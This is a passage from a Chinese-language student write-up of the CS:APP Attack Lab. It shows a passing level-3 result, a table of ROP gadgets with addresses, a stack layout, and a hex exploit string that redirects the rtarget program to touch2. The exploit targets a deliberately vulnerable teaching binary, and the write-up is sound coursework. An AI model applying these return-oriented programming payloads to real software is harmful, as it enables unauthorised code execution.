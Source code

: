 ```
Cookie: 0x286582b8
Type string:Touch3!: You called touch3("286582b8")
Valid solution for level 3 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```

## Part II: Return-Oriented Programming
### Level 2
老师上课讲了ROP的基本思想，因为栈的保护机制，我们无法像Part I中一样获取栈的地址，而且插入的代码也无法执行，但我们还可以通过程序中存在的一些函数，它们的机器代码通过截取一段可以构成新的不同意义的指令（带`ret`）。而这些指令就可以帮助我完成攻击。    
通过查表并对应farm中的反汇编代码，我整理出来了一些可用的gadgets（都带有ret）：

|函数名|对应指令|指令的起始地址|
|----|----|----|
|`setval_487`|`movq %rax,%rdi`|`0x401917`|
|`setval_487`|`movl %eax,%edi`|`0x401918`|
|`addval_207`|`popq %rax`|`0x401925`|
|`setval_316`|`popq %rax`|`0x401941`|
|`setval_153`|`movl %esp,%eax`|`0x40197f`|
|`setval_181`|`movl %ecx,%edx`|`0x401994`|
|`addval_103`|`movq %rsp,%rax`|`0x4019ae`|
|`getval_178`|`movl %eax,%ecx`|`0x4019d5`|
|`getval_308`|`movl %edx,%esi`|`0x4019f0`|
|`add_xy`|`lea (%rdi,%rsi,1),%rax`|`0x40194a`|
要触发`touch2`，我将栈构造如下（高地址到低地址，8字节一个单位）：

|栈底|
|:---:|
|……|
|`&touch2`|
|`movq %rax,%rdi`<br>`ret`|
|cookie:`0x286582b8`|
|`popq %rax`<br>`ret`| 
|`buf`的24个字节|
|栈顶|
根据以上信息对照我列出的gadgets表可以构造出phase4代码：

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
41 19 40 00 00 00 00 00
b8 82 65 28 00 00 00 00
17 19 40 00 00 00 00 00
ac 17 40 00 00 00 00 00
```
注入攻击：`./hex2raw < phase4 | ./rtarget`
成功：
